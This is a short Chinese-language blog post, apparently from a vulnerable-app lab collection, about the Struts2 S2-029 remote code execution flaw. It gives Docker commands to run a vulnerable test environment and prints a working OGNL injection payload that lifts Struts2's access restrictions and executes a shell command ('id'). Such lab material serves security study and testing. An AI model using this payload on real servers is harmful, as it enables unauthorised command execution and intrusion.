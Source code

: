 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-029)"
date: 2017-06-13 18:44:00 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-029)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-029)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-029)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>
### 漏洞信息

 * [S2-029 公告](http://struts.apache.org/docs/s2-029.html)
 
 详细参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-029
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-029
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()))
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-029/s2-029-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
